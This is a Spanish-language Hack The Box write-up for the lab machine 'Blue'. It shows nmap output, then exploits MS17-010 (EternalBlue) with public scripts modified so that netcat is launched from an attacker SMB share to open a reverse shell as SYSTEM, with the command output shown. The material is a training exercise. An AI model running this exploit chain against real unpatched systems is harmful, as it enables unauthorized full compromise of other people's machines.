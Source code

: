 ```yaml
---
layout: single
title: HTB-Blue
excerpt: "WriteUp de la máquina HTB Blue -- Type: Easy"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/blue/blueicon.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/blue/blueicon.png"></centre>


[Maquina](https://app.hackthebox.com/machines/51) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.40 
```

```txt
Nmap scan report for 10.10.10.40
Host is up (0.042s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Al ver que el puerto 445 se encuentra abierto y que el SO es un Windows 7 SP1 podemos probar a usar el EternalBlue ya que podría ser vulnerable.

[MS17-010](https://github.com/worawit/MS17-010)



## Explotación

```bash
git clone https://github.com/worawit/MS17-010
```

Primero, vamos a comprobar que el Windows sea vulnerable a este exploit y para ello vamos a usar el **checker.py** dandole permisos de administrador y cambiando un trozo de linea del código.

Donde poner username, ponemos un carácter porque si no, no podría funcionar el script salvo que el usuario **guest** este habilitado. 

```bash
Script for
- check target if MS17-010 is patched or not.
- find accessible named pipe
'''

USERNAME = 'a'
PASSWORD = ''

NDR64Syntax = ('71710533-BEBA-4937-8319-B5DBEF9CCC36', '1.0')

```

Ejecutamos el Script poniendo la direccion ip de la máquina Blue.

```bash
python2 checker.py 10.10.10.40
```

imagenchecker

Al comprobar que funciona correctamente, procederemos a cambiar la misma parte del contenido en el fichero **zzz_exploit.py** y también dandole permisos de ejecución.

Buscamos dentro del archivo por **cmd** y comentamos las mismas lineas que en lo siguiente y descomentamos la única que se va a ejecutar y cambiamos a lo siguiente.

Liena a insertar con el cual ejecutaremos el netcat por el servidor smb de Kali y nos haremos una reverseShell a nuestro equipo teniendo el puerto 443 a la escucha con el comando **nc -lvp 443
**

Linea a introducir:
```bash
\\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443
```

Parte del archivo a cambiar:
```bash
def smb_pwn(conn, arch):
        #smbConn = conn.get_smbconnection()
         
        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)
         
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c \\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."

```

Servidor SMB con **impacket**
```bash
impacket-smbserver share $(pwd) -smb2support

```


Procederemos a la ejecucion del script.

```bash
python2 zzz_exploit.py 10.10.10.40
```

Y comprobaremos que somos **nt authority*

```txt
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::ec27:2916:8a1f:869e
   Temporary IPv6 Address. . . . . . : dead:beef::a4ad:6053:ef18:5158
   Link-local IPv6 Address . . . . . : fe80::ec27:2916:8a1f:869e%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.40
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%11
                                       10.10.10.2

Tunnel adapter isatap.{CBC67B8A-5031-412C-AEA7-B3186D30360E}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>
```

